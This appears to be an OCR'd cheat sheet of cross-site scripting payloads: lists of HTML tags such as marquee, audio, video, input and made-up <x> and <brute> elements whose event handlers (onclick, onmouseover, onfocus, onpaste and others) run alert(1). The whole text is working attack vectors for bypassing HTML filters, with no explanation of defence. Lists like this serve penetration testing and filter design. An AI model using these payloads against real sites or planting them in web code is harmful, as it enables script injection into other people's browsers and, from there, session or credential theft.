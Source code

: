 Miscellaneous Vectors

<marquee onstart=alert(1)>
<marquee loop=1 width=0 onfinish=alert(1)>
<audio src onloadstart=alert(1)>
<video onloadstart=alert(1)><source>
<input autofocus onblur=alert(1)>
<keygen autofocus onfocus=alert(1)>
<form onsubmit=alert(1)><input type=submit>
<select onchange=alert(1)><option>1<option>2
<menu id=x contextmenu=x onshow=alert(1)>right click me!

Agnostic Event Handlers

<x contenteditable onblur=alert(1)>lose focus!
<x onclick=alert(1)>click this!
<x oncopy=alert(1)>copy this!
<x oncontextmenu=alert(1)>right click this!
<x oncut=alert(1)>copy this!
<x ondblclick=alert(1)>double click this!
<x ondrag=alert(1)>drag this!
<x contenteditable onfocus=alert(1)>focus this!
<x contenteditable oninput=alert(1)>input here!
<x contenteditable onkeydown=alert(1)>press any key!
<x contenteditable onkeypress=alert(1)>press any key!
<x contenteditable onkeyup=alert(1)>press any key!
<x onmousedown=alert(1)>click this!
<x onmousemove=alert(1)>hover this!
<x onmouseout=alert(1)>hover this!
<x onmouseover=alert(1)>hover this!
<x onmouseup=alert(1)>click this!
<x contenteditable onpaste=alert(1)>paste here!

Agnostic Event Handlers

<brute contenteditable onblur=alert(1)>lose focus!
<brute onclick=alert(1)>click this!
<brute oncopy=alert(1)>copy this!
<brute oncontextmenu=alert(1)>right click this!
<brute oncut=alert(1)>copy this!
<brute ondblclick=alert(1)>double click this!
<brute ondrag=alert(1)>drag this!
<brute contenteditable onfocus=alert(1)>focus this!
<brute contenteditable oninput=alert(1)>input here!
<brute contenteditable onkeydown=alert(1)>press any key!
<brute contenteditable onkeypress=alert(1)>press any key!
<brute contenteditable onkeyup=alert(1)>press any key!
<brute onmousedown=alert(1)>click this!
<brute onmousemove=alert(1)>hover this!
<brute onmouseout=alert(1)>hover this!
<brute onmouseover=alert(1)>hover this!
<brute onmouseup=alert(1)>click this!
<brute contenteditable onpaste=alert(1)>paste here!
<brute style=font-size:500px onmouseover=alert(1)>0000
<brute style=font-size:500px onmouseover=alert(1)>0001
<brute style=font-size:500px onmouseover=alert(1)>0002
<brute style=font-size:500px onmouseover=alert(1)>0003
